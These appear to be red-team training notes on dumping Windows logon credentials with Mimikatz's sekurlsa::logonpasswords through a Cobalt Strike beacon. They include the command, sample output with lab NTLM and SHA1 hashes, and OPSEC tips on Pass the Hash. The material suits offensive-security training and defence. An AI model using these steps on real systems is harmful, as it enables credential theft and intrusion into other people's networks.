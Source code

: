 The `sekurlsa::logonpasswords` command in Mimikatz is infamous for being able to "dump plaintext passwords from memory". Having a users password has clear advantages (see **Make Token**) and was a lucrative tactic for a long time. However, Microsoft have implemented a lot of mitigations in Windows 10 and above (e.g. by disabling [wdigest](https://stealthbits.com/blog/wdigest-clear-text-passwords-stealing-more-than-a-hash/) by default), so happening across plaintext passwords is certainly less common.

This module is still capable of retrieving NTLM hashes which is useful for pairing with the **Pass the Hash** or even cracking to recover the plaintext.

This requires local admin privileges on the host.
```shell
beacon> mimikatz sekurlsa::logonpasswords

Authentication Id : 0 ; 113277 (00000000:0001ba7d)
Session           : Interactive from 1
User Name         : jking
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 5/24/2021 9:00:11 AM
SID               : S-1-5-21-3263068140-2042698922-2891547269-1122
    msv :   
     [00000003] Primary
     * Username : jking
     * Domain   : DEV
     * NTLM     : 4ffd3eabdce2e158d923ddec72de979e
     * SHA1     : b081158da72409badae7b849d12097f2fa02c119
     * DPAPI    : 4180363cf5b2faa2130098adcb3a1db4
    tspkg : 
    wdigest :   
     * Username : jking
     * Domain   : DEV
     * Password : (null)
    kerberos :  
     * Username : jking
     * Domain   : DEV.CYBERBOTIC.IO
     * Password : (null)
    ssp :   
    credman :
```

Cobalt Strike also has a short-hand command for this called `logonpasswords`.

**OPSEC Alert**
>A lot of tradecraft that leverages NTLM are undesirable.
>	-   Pass-the-Hash requires patching LSASS.
>	-   Overpass-the-Hash with NTLM uses a weaker encryption compared to what Windows uses by default.
>
I therefore recommend using SHA hashes from **eKeys** (detailed on the next page). However, real actors are still using NTLM so those techniques are included in this course.

After dumping these credentials, go to **View > Credentials** to see a copy of them. Some of Cobalt Strike workflows (such as the right-click **Beacon > Access > MakeToken** dialog) can pull from this data model.